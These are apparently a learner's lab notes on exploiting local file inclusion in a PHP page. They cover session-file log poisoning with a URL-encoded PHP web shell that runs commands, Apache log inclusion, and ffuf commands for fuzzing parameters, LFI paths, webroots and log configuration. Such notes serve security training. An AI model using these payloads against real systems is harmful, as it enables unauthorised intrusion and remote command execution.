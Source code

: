 As we can see, the `id` command was successfully executed. Both the `zip` and `phar` wrapper methods should be considered as alternative methods in case the first method did not work, as the first method we discussed is the most reliable among the three.

## Log Poisoning
![[Pasted image 20250619162746.png]]

This is the place where the Session Logs are kept : `http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_<session_id>`

	Then add a Web Shell to it, using the command :  `http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E`


And if I need to execute the command, we will use : `http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id`


Now, to read the Apache Server Logs, we can try to visit to a website like : `http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log`


## Fuzzing Parameters
FFuF can be used for fuzzing the parameter names that can be manipulated : `ffuf -w /opt/useful/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287`

A good LFI Wordlist is LFI-Jhaddix.txt, to use it we need to type in the following command : `ffuf -w /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287`

To know about Server Webroot, we can FFuF that easily using the command   : `ffuf -w /opt/useful/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287`

To find the server log configuration, we can use the command : `ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287`

